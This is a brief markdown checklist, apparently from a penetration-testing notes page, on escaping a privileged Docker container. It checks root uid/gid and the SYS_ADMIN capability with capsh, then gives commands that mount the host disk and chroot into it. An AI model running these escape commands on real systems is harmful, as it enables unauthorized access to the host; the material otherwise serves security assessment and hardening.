 * Run within docker container inside:<br>
```
capsh --print 
```
  * Check if root in uid = 0
  * Check if root in gid = 0
  * Check if sys_admin 
    *  If yes to above all, host easialy exploitable:
    ```
    mount /dev/sda /mnt/
    chroot ./ bash
    ```
